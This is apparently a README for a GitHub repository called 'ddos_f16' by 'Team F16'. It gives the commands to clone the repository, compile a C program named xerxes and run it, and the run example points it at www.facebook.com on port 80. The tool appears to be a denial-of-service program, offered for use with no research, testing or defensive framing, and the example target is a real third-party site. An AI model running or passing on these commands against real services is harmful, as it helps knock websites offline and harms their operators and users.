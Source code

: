 <h1 align="center">F16</h1>
<p align="center">
  Team F16
</p>

### CLONE
```
# git clone https://github.com/th3ross/ddos_f16.git
```

### COMPILE
```
# gcc xerxes.c -o xerxes
```
 
 ```
# cd ddos_f16-master
```
 
### RUNNING
```
# ./xerxes www.facebook.com 80
```
